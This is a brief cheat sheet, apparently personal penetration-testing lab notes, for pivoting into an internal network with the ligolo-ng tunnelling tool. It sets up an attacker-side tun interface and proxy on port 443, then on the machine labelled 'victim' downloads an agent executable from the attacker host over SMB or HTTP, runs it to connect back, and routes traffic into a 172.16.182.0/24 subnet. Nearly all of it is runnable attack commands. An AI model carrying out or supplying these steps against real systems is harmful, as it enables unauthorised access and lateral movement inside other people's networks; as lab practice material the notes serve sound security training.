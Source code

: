 ```
sudo ip tuntap add user kali mode tun ligolo

sudo ip link set ligolo up 
```

```
./lin-proxy -selfcert -laddr 0.0.0.0:443    
```

on victim

```
net use n: \\192.168.45.240\share /user:test test

copy \\192.168.45.240\share\agent.exe
```

```
iwr http://192.168.45.216/agent.exe -O agent.exe
```

```
agent.exe -connect 192.168.45.240:443 -ignore-cert
```


add ip route to ligolo
```
sudo ip route add 172.16.182.0/24 dev ligolo
```


in ligolo
```
session
1
start
```